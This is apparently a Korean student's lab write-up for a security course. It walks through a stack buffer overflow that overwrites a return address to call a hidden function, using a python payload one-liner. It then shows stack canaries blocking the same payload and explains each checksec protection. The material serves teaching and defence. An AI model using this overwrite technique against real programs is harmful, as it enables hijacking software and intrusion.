







# Week 9

## Challenge 1. ret address 덮어서 실행 흐름 바꾸기

### 컴파일

```bash
gcc -g -O0 -fno-stack-protector -no-pie challenge1.c -o challenge1
```

### Offset과 함수 주소 확인




| 항목 | 결과 |
|---|---|
| `buf` 주소 | `0x7fffffffdec0` |
| 반환 주소 저장 위치 (`rbp + 8`) | `0x7fffffffded8` |
| Offset | `24`바이트 |
| `secret()` 주소 | `0x401156` |

Offset은 `(rbp + 8) - &buf`로 계산하였다.

### 실행 결과

```bash
python3 -c 'import sys, struct; sys.stdout.buffer.write(b"A" * 24 + struct.pack("<Q", 0x401156))' > payload.bin
./challenge1 < payload.bin
```



`secret function called!`가 출력되어 실행 흐름이 변경된 것을 확인하였다. 이후 정상적인 복귀 주소가 구성되지 않아 Segmentation fault가 발생하였다.

Little Endian은 하위 바이트부터 저장하는 방식이다. 주소 `0x401156`은 `56 11 40 00 00 00 00 00` 순서로 입력하였다.

## Challenge 2. checksec으로 보호 기법 확인

```bash
gcc -g -O0 -no-pie challenge1.c -o vuln_default
gcc -g -O0 -fstack-protector-strong -no-pie challene1.c -o vuln_protected
```

```bash
checksec --file=./challenge1
checksec --file=./vuln_default
checksec --file=./vuln_protected
```





| 바이너리 | 스택 보호 옵션 | Canary |
|---|---|---|
| `challenge1` | `-fno-stack-protector` | 없음 |
| `vuln_default` | 기본 설정 | 있음 |
| `vuln_protected` | `-fstack-protector-strong` | 있음 |

세 바이너리 모두 `Partial RELRO`, `NX enabled`, `No PIE`로 확인되었다.

### 보호된 바이너리 실행

```bash
./vuln_protected < payload.bin
```



`stack smashing detected`가 출력되고 프로그램이 중단되었다.

### checksec 확인 항목

| 항목 | 의미 |
|---|---|
| Canary | 스택 손상 탐지 |
| NX | 데이터 영역에서 코드 실행 제한 |
| PIE | 실행 파일의 주소 무작위화 지원 |
| RELRO | 재배치 관련 영역의 쓰기 보호 |
| RPATH / RUNPATH | 라이브러리 검색 경로 |
| Symbols | 심볼 정보 |
| FORTIFY | 일부 함수의 추가 검사 적용 여부 |
